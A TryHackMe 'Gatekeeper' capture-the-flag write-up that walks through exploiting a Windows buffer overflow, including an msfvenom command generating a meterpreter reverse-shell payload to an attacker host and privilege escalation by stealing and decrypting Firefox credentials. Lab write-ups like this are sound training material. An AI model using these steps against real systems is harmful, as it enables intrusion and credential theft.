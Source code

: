 +++
title = 'TryHackMe Gatekeeper write-up'
date = 2024-10-03T07:07:07+01:00
+++

*Can you get past the gate and through the fire?*

**Enumeration**

![alt](images/img1.png)

On port 31337 there is a program running that takes our input. It crashes when providing a big input confirming it's vulnerable to buffer overflow

![alt](images/img2.png)

We can download the program via smb as guest login is enabled

![alt](images/img3.png)

![alt](images/img4.png)

**Exploiting Buffer Overflow**
I copied the gatekepper.exe file to Windows machine with Immunity Debugger and started testing the program using scripts from https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
Let's create a unique pattern so we can determine the offset of the EIP
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
After sending the payload we copy the value of EIP shown in the Immunity Debugger

![alt](images/img5.png)

And run the command
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 600 -q <address>`
to find EIP offset
We can now update offset variable in the exploit script and start looking for bad chars. First let's run a mona command in Immunity Debugger
`!mona bytearray -b "\x00"`
Then we generate bad chars and copy them to our script
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()

```
After sending our exploit we copy the address of ESP and run another mona command
`!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <address>`

![alt](images/img6.png)

Then we generate a new bytearray in mona, specifying these new badchars along with \x00 and remove these new badchars from our payload. After sending the updated exploit there are no more bad chars found

![alt](images/img7.png)

After that we need to find a jump point
`!mona jmp -r esp -cpb "<bad chars>"`

![alt](images/img8.png)

We pick one of the addresses found and copy it to our retn variable in reverse because of the endianness of the system. Then we generate a payload with msfvenom
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<bad chars>" -f c`
and copy it to our payload variable. Finally we prepend at least 16 NOP bytes (\x90) as padding. Final variables look like this

![alt](images/img9.png)

After setting up listener in metasploit and running the exploit we get a reverse shell

![alt](images/img10.png)

**Privilege Escalation**
There is a Firefox.lnk file meaning that Firefox is installed on the system. That plus the fact that the box description mentions 'fire' suggests that it might be an attack vector. We can use Metasploit's post/multi/gather/firefox_creds module to retrieve credentials

![alt](images/img11.png)

Now we have to decrypt the data. We can use firefox_decrypt for this: https://github.com/unode/firefox_decrypt. After renaming the files and running the program we find credentials

![alt](images/img12.png)

We can use these with a tool called psexec which allows to execute commands on a remote system

![alt](images/img13.png)

We have administrator privileges